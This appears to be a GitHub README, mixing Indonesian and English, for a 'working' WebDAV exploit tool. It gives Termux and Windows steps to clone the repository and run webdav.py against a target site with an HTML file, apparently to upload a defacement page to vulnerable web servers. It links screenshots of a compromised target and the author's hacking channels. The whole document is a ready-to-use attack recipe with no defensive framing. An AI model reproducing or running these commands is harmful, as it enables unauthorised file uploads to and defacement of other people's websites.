 # Exploit Webdav Windows & Termux Working

# Eksekusi via Termux

pkg update && pkg upgrade

pkg install -y git python2 curl php wget 

git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod +x webdav.py

python2 webdav.py sitevuln.com xroot.htm

================================================================================
# Eksekusi via Window

Download Python27 : https://shortid.co/bFWBm

git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod 777 webdav.py

python webdav.py sitevuln.com xroot.htm

================================================================================
# Screenshot Via Windows
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/webdav.png)

# Screenshot Target Webdav
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/target.png)

My Youtube    : https://www.youtube.com/channel/UCKdOPQ_iIXcqK17PB_2RMdQ

Link Tutorial : 

My Website    : http://hackingforlive.cf,,https://hackingforlive.wordpress.com

My Facebok    : https://web.facebook.com/xroot.xroot.7

Moto : Berbagi Itu Indah

Regard Boychongzen aka Xroot
